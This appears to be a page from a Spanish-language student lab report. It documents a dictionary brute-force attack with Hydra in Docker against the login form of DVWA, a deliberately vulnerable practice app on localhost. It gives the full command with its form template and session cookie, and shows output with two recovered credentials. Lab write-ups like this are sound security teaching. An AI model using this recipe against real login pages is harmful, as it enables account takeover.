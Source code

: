 \documentclass[letterpaper,12pt]{article}
\begin{document}
Para realizar el ataque se ejecutó la imagen oficial de Hydra en Docker y se configuraron los parámetros clave del módulo `http-get-form`:
\begin{itemize}
        \item \verb|--network="host"|: expone la red del contenedor para alcanzar el DVWA publicado en el puerto 8889 del host.
        \item \verb|-v "$(pwd)":/data|: monta el directorio actual dentro del contenedor para compartir diccionarios y registrar el resultado en \verb|/data|.
        \item \verb|-L| y \verb|-P|: apuntan a los diccionarios ligeros de usuarios y contraseñas preparados previamente.
        \item \verb|-s 8889 localhost http-get-form|: especifica el puerto, host y módulo de Hydra que automatiza envíos GET sobre el formulario objetivo.
    \item Cadena del formulario: define los nombres de los campos \verb|username| y \verb|password|, la acción \verb|Login|, inyecta la cookie de sesión y detecta éxito cuando aparece ``Welcome to the password protected area''. La plantilla utilizada fue:
\begin{verbatim}
'/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=...; security=low:S=Welcome to the password protected area'
\end{verbatim}
        \item \verb|-o /data/hydra_light.txt|: guarda el log con las combinaciones válidas encontradas.
\end{itemize}

    \textbf{Comando ejecutado}
\begin{verbatim}
$ sudo docker run --rm --network="host" -v "$(pwd)":/data vanhauser/hydra \
    -L /data/usuarios_light.txt -P /data/contrasenas_light.txt -s 8889 \
    localhost http-get-form \
        '/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low:S=Welcome to the password protected area' \
    -o /data/hydra_light.txt
\end{verbatim}

	\textbf{Resultado relevante}
\begin{verbatim}
[8889][http-get-form] ... login: admin   password: password
[8889][http-get-form] ... login: gordonb password: abc123
1 of 1 target successfully completed, 2 valid passwords found
\end{verbatim}
\end{document}

